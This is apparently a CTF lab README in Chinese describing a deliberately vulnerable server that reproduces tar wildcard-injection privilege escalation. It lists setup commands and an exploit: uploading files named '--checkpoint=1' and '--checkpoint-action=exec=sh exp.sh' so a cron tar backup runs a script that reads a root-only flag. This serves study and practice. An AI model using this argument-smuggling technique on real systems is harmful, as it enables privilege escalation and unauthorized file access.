 ## Tar-Vuln-server

复现利用tar指令checkpoint-action参数提权

配置：

```
su
cd / && echo flag{xxxxxx} > flag && chmod 400 flag
cd [app dir]
bash cron.sh&
su [normal user]
chmod +x main
./main
```

利用：
通过Web上传三个文件，文件名为：
```
--checkpoint=1
--checkpoint-action=exec=sh exp.sh
exp.sh
```

exp.sh内容为`cat /flag > 1.txt`

过一分钟备份后就会在目录下看到1.txt，读取即为flag
